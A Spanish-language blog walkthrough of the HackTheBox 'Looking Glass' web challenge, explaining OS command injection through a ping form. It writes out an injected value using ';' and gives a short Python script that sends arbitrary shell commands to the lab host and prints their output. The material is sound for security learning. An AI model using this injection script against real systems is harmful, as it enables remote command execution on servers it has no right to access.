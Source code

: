```yaml
---
title: "Broken Authentication"
excerpt: "**Broken Authentication** Module Walkthrough ' HackTheBox Academy"
header:
  overlay_image: /assets/images/HTB_looking_glass/banner.png
  teaser: /assets/images/HTB_looking_glass/auth.jpg
  og_image: /assets/images/HTB_looking_glass/auth.jpg
categories:
  - HTB_Academy
tags:
  - HTB_Academy
  - Challenge
  - Web
  - OWASP TOP 10
---
```

![image-center](\assets\images\HTB_looking_glass\auth.jpg)
## ¿Qué es un Challenge en HTB?
Los challenges de HackTheBox son pequeños desafíos para probar diferentes técnicas de pentesting. Tienen tres niveles de dificultad (Easy, Medium, Hard) según el color de su entrada, pero la dificultad real es calificada por los usarios que han completado el challenge en una escala de diez nieveles (desde "Piece of cake" a "Brainfuck")

Lo primero que debemos hacer es ir a la página web de Hack The Box y en la parte izquierda tenemos un menú en el que podemos ver varias secciones como *Labs*, *Ranking*, *Battleground*, etc. Seleccionamos la pestaña *Labs* y se nos muestra un desplegable, pulsamos en la opción Tracks como se muestra en la siguiente imagen.

![image-center](\assets\images\HTB_looking_glass\tracks.png)

Este challenge está comprendido dentro del track de OWASP Top 10, que contiene 10 challenges de vulnerabilidades WEB con nivel de dificultad Easy:

![image-center](\assets\images\HTB_looking_glass\owasp.png)

Elegimos el challenge de looking glass:

![image-center](\assets\images\HTB_looking_glass\looking_glass.png)

Y ya podemos arrancar la máquina pulsando el boton de Start Instance:

![image-center](\assets\images\HTB_looking_glass\looking_glass_2.png)

Importante: para poder acceder a la máquina antes debemos conectarnos a la VPN.

![image-center](\assets\images\HTB_looking_glass\vpn.png)

## Looking glass challenge

Segun la propia descripción del challenge:
> _**“Hemos creado la herramienta más segura de networking en el mercado, ¡ven y pruébala!”**_

Arrancamos la máquina y vemos que nos muestra:

![image-center](\assets\images\HTB_looking_glass\vpn.png)

Se aprecia un menú de opciones en el que podemos seleccionar entre el comando Ping y Traceroute y además podemos introducir manualmente la IP a la que queremos hacer Ping o Traceroute.

Esto podría implementarse en el lado del servidor con la siguiente línea:
```sh
system("ping -c 4 " + IP);
```
Básicamente estamos pasando los parametros a Bash por lo que podríamos instertar un `;` en la variable IP, haciendo que lo que fuera detras de este punto y coma se interprete como un comando diferente:

```sh
system("ping -c 4 192.168.0.1; pwd");
```

En el ejemplo anterior `pwd` se ejecutaría como un comando separado.


```python
from requests import post

comando = input('Introduce el comando que quieres ejecutar:  ')

datos_post = {'test': 'ping', 'ip_address': f'206.189.125.57; {comando}', 'submit': 'Test'}
respuesta = post('http://206.189.125.57:30011/', data=datos_post)

data = respuesta.text
data = data.split('loss\n')[-1]
data = data.split('</textarea>')[0]

print(data.strip())
```

Se trata de una vulnerabilidad RCE (Remote Code Execution) que explicaré en próximos posts.
